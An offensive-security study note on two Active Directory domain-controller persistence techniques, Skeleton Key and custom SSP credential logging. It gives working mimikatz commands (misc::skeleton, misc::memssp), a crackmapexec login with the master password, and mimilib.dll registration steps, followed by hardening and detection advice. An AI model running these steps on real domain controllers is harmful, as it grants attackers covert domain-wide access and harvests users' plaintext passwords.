

# 14 - Skeleton Key and Custom SSP Persistence

## 1. Executive Summary

Two DC-resident persistence tricks that need Tier-0 (DA/SYSTEM on a DC). **Skeleton Key** patches LSASS on a DC so that **every account accepts a master password** (e.g. `mimikatz`) **in addition to** its real one — you can then authenticate as anyone with the magic password while legitimate logons still work (stealthy). **Custom SSP** installs a malicious Security Support Provider (`mimilib.dll`, or in-memory `memssp`) that **logs every plaintext credential** processed by the DC/host — a passive credential harvester. Both turn DC access into durable, low-noise access to the whole domain.

## 2. Concept Overview

LSASS loads authentication packages (SSPs). **Skeleton Key** injects code so the Kerberos/NTLM check also matches a hardcoded secret (downside: RC4-only, and it's in memory → lost on reboot). **Custom SSP**: register an extra SSP via `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages` (mimilib.dll) or patch in-memory (`misc::memssp`) so LSASS hands every credential to your logger (`C:\Windows\System32\kiwissp.log`).

## 3. Prerequisites

```bash
# DA / SYSTEM on a Domain Controller (or target host for SSP credential capture)
mimikatz # privilege::debug
```

## 4. Exploitation

```bash
# Skeleton Key (in-memory LSASS patch on a DC)
mimikatz # misc::skeleton
#   → now authenticate as ANY user with password "mimikatz":
crackmapexec smb <dc> -u Administrator -p mimikatz
#   (real passwords still work → stealth; reverts on DC reboot)

# Custom SSP — in-memory credential logger
mimikatz # misc::memssp
#   → plaintext creds of every logon written to C:\Windows\System32\kiwissp.log

# Custom SSP — persistent (survives reboot): drop mimilib.dll + register
copy mimilib.dll C:\Windows\System32\
#   add "mimilib" to HKLM\...\Lsa\Security Packages  (then reboot)
```

## 5. Mermaid Attack Flow



## 6. Persistence Notes
- **Skeleton Key**: memory-only → gone on reboot (re-apply needed); very stealthy while live.
- **Custom SSP (mimilib)**: registry-registered → survives reboot; continuously harvests new creds (incl. on every DC where applied).

## 7. Post-Exploitation / Data Access
- Authenticate as any principal (skeleton key) or passively collect all credentials over time (SSP) → entire domain.

## 8. Defense & Hardening
1. Protect DCs (Tier-0); enable **LSA Protection (RunAsPPL)** + Credential Guard to resist LSASS patching/injection.
2. Monitor `Lsa\Security Packages` registry changes; alert on unsigned DLLs in System32 and unexpected `kiwissp.log`; watch for mimikatz on DCs.
3. Detect RC4-only auth anomalies (skeleton key forces RC4); reboot + reimage suspected DCs; rotate all credentials after DC compromise.

## 9. Chaining & Related Notes
- Requires DA via **[[15 - DCSync Attack]]** / **[[09 - Golden Ticket Attack]]** (A-36). Credential-dumping cousin: **[[20 - Mimikatz — Credential Dumping]]** (A-36).
- Other DC persistence: **[[15 - DSRM and Directory Persistence]]**, **[[13 - SID History Injection]]**.

## 10. Tools
`mimikatz` (misc::skeleton / misc::memssp), `mimilib.dll`, `crackmapexec`.
